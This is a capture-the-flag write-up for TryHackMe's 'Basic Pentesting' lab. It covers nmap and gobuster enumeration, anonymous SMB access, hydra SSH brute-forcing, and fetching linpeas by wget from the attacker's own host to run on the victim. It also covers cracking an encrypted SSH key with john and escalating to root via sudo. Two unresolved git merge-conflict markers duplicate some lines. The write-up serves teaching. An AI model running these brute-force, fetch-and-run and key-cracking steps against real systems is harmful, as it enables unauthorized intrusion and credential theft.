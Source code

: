 # Writeup for [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) from [Try Hack Me](https://tryhackme.com)

## Table of Contents
[Setting Up](#setting-up)  
[Information Gathering and Enumeration](#information-gathering-and-enumeration)  
[Gaining Access](#gaining-access)  
[Privilege Escalation](#privilege-escalation)  

## Setting Up
1. Make sure you are connected to the TryHackeMe VPN Network.
2. Make sure you have deployed the machine and there is a valid IP Address that you can hit.
3. If any of this sound unfamiliar, please consult the Try Hack Me help page.

## Information Gathering and Enumeration
To start things off, we should run an nmap scan on the machine.  
```
nmap -v -sC -sV -oN nmap/initial 10.10.2.82
```  
>Legend:
>1. -v -> verbose mode
>2. -sC -> Use nmap default script
>3. -sV -> enumerate service versions
>4. -oN -> output normal format in the nmap directory with the file called initial
>5. 10.10.2.82 -> IP address of the victim machine

After running the nmap scan, we should see our results in the nmap directory.  
I am using `less` to view the results.

![nmap results](./img/nmap-result.png)  

We can see quite a few services running on this server. But I would like to start with those http services on port 80 and 8080. Those samba shares might also contain some juicy info.  
We should hit that http server on port 80 by searching the victim IP address in our web browser with the http schema (http://10.10.2.82).  

We see a page that says that it is undergoing maintencance.    

![port80-undergoing-maintencance](./img/port80-undergoing-maintencance.png)  


If we view the page source for this particular page, then we could see some comments from the devs.    

![port80-maintencance-source](./img/port80-maintencance-source.png)  

Based on this comment, we could assume that there will be a developers page or something of the sort. So let's investigate.  
I'm going to use a tool called `gobuster` to fuzz directories.
```
gobuster dir -u http://10.10.2.82 -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/port80-root
```
>Legend:
>1. dir -> specify directory fuzzing mode
>2. -u -> url
>3. -w -> wordlist to use ( I use [SecLists](https://github.com/danielmiessler/SecLists) ( SecLists is also in the kali repos ))
>4. -o -> outfile to the directory gobuster with the file called port80-root

While that is running in the background we should check those samba shares.  
We can use the default `smbclient` tool on Linux.
```
smbclient -L \\\\10.10.2.82\\
```
>Legend:
>1. -L -> List shares

We could try using anonymous login by typing the password as anonymous or leaving it blank is also fine.  

![smb-list](./img/smb-list.png)  

After knowing the name of the share we could simply connect to that share with anonymous login once again.  

![smb-connect](./img/smb-connect.png)  

After that we can run `ls` to list all files and directories in that share, and we see staff.txt. We can download that file by running `get staff.txt`.

![staff-txt](./img/staff-txt.png)  

We can see potential users on the box from that staff.txt which are `jan` and `kay`. We should write that to a file to potentially brute-force passwords againts SSH on the box. I will write it to a file called creds.txt where every entry is on its own line.  

Going back to our gobuster scan, we found a peculiar directory called **development**.  

![gobuster-development](./img/gobuster-results.png)  

<<<<<<< HEAD
After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.

=======
After visiting that webpage, we can see 2 files which are dev.txt and j.txt. We should download both of them.  
>>>>>>> fb5adea9dda0509668e00e19ac27f0b601f61955
![port80-dev](./img/port80-dev.png)

![wget-dev](./img/wget-dev.png)  

From reading j.txt we can assume that one of the users has a weak password. We could assume J stands for the user jan and K for the user kay.
Weak password are always good for us as attackers because we can probably brute-force that password using a popular wordlist like **rockyou.txt**. ( If you are using Kali or Parrot, it's in /usr/share/wordlist/rockyou.txt )  

## Gaining Access
I'm going to use a brute-forcing tool called `hydra`. And we are going to use that file that we created, creds.txt.
```
hydra -L creds.txt -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.2.82
```
>Legend:
>1. -L -> List of users
>2. -P -> List of passwords
>3. ssh:// -> bruteforce the SSH Protocol ( default port 22 , change if necessary )  

Give it some time depending on your hardware, and we should get some passwords.  

![hydra-result](./img/hydra-result.png)  

We found jan's password which we can use to authenticate via ssh to the box.
We should also update our creds.txt file for that password, just to keep track.

```
ssh jan@10.10.2.82
```  
## Privilege Escalation

Once we gain access we should try some low hanging fruit like `sudo -l` since we know jan's password. Sadly jan can't run sudo on this box, so we should try some automated enumeration to look for more low hanging fruit.  
I personally love to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git), so let's upload this script to the box.

On the directory where linpeas is stored, run `python3 -m http.server` to run a simple http server.

![linpeas-attacker](./img/linpeas-attacker.png)  

On the victim machine, navigate to a more isolated directory ( I use /dev/shm ) and run `wget http://[YOUR IP ADDRESS]:8000/linpeas.sh`
( To check your tryhackme IP address, run `ip a s tun0` on your machine.)

![linpeas-victim](./img/linpeas-victim.png)  

Mark the script as executable with `chmod +x linpeas.sh` and just run the script. I usually like to keep a copy of the results so I will also tee it
`./linpeas.sh | tee linpeas.log`  

There will be a lot of output from linpeas, and if you want to view the log file, we can use `less -r linpeas.log`.  

From reading the output of linpeas, I found that kay has an SSH private key accessible to us.

![kay-ssh](./img/kay-ssh.png)  

We can just cat the id_rsa file which is the private key used to authenticate via ssh, and copy it to our local box. We could see that this ssh key is encrypted by reading the first few lines of the file, so we are going to need to decrypt it.  
We are going to use a tool called John The Ripper ( john ).    

First of all we need to convert this encrypted id_rsa file to something that john can decrypt, so there is a script called ssh2john.py.
`ssh2john kay-id_rsa > kay-for_john`

We are going to use this script on a file called `kay-id_rsa` and output it to `kay-for_john`.  
After that, we could just run `john kay-for_john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

![john-result](./img/john-result.png)  

We got the password which is **beeswax**. Now we can use that id_rsa file to authenticate as kay on the box.
`ssh -i kay-id_rsa kay@10.10.2.82`  
Also make sure that we `chmod 600 kay-id_rsa` first so ssh doesn't whine to us that this sshkey is not protected.

![kay-login](./img/kay-login.png)  

Looking at kay's home directory, we can see a pass.bak file that looks like a password when we cat it out. We should test if this is kay's password with `sudo -l`.  
Looks like I was spot on, and we can run anything in this box as root ( from sudo ).

![kay-password](./img/kay-password.png)  

<<<<<<< HEAD
We could simply run `sudo bash` and we should get a root shell!

![root-shell](./img/root-shell.png) 
=======
We could simply run `sudo bash` and we should get a root shell!  
![root-shell](./img/root-shell.png) 
>>>>>>> fb5adea9dda0509668e00e19ac27f0b601f61955
